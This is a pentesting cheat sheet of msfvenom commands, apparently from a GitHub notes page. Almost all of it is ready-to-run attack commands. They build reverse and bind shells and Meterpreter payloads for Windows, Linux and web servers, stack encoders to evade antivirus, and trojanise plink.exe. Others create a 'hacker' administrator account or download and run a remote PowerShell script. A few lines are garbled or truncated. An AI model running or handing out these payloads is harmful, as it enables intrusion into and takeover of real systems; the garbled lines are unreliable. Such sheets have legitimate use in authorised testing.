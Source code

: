 # ⭕ msfvenom

## <mark style="color:red;">reverse all port payload</mark>

```
msfvenom -p windows/meterpreter/reverse_tcp_allports lhost=192.168.56.1 lport=6969  --platform windows exitfunc=thread -a x86  -f exe >reverse_all.exe

set payload windows/meterpreter/reverse_tcp_allports
```

lport is the starting port which can also be set to 1 so it will go all the way to 65535 in both payload and the

## <mark style="color:red;">multi-transport payload</mark>

in AddTransports.ps1 :

```
Add-TcpTransport -lhost <host> -lport <port> -RetryWait 10 -RetryTotal 30
Add-WebTransport -Url https://<host>:<port>;-RetryWait 10 -RetryTotal 30
Add-WebTransport -Url http://<host>:<port>;-RetryWait 10 -RetryTotal 30
```

The command line for this would be:

```
msfvenom -p windows/meterpreter_reverse_tcp lhost=<host> lport=<port> sessionretrytotal=30 sessionretrywait=10 extensions=stdapi,priv,powershell extinit=powershell,/home/ionize/AddTransports.ps1 -f exe
```

## <mark style="color:red;">custom payload</mark>

​​this is a chained command -- enter it one line at a time

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.53 LPORT=443 -f raw -e x86/shikata_ga_nai -i 10 | \
msfvenom -a x86 --platform windows -e x86/jmp_call_additive -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/call4_dword_xor -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/fnstenv_mov -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.234 LPORT=443 R | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -t exe -c --platform windows /usr/share/windows-binaries/plink.exe -o beffany.exe
```

## <mark style="color:red;">Linux</mark>

Linux Meterpreter reverse shell x86 multi stage

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux Meterpreter bind shell x86 multi stage

```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

Linux bind shell x64 single stage

```
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 	
```

Linux reverse shell x64 single stage

```
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 
```

## <mark style="color:red;">Windows</mark>

Windows Meterpreter reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows Meterpreter http reverse shell

```
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
```

Windows Meterpreter bind shell

```
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Multi Stage

```
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

Windows CMD Single Stage

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe >
```

Windows add user

```
 shell.exemsfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

Windows Exec Nishang Powershell in python

```
 msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python
```

Bad characters shikata\_ga\_nai

```
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"
```

Bad characters fnstenv\_mov

```
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"
```



## <mark style="color:red;">Other Languages</mark>

python

```
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py
```

BASH Shell

```
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh
```

PERL Shell

```
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl
```

ASP Meterpreter shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp
```

JSP Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp
```

​WAR Shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```

​pbcopy && echo '?php '

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php
```

Php Reverse Shell

```
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php
```
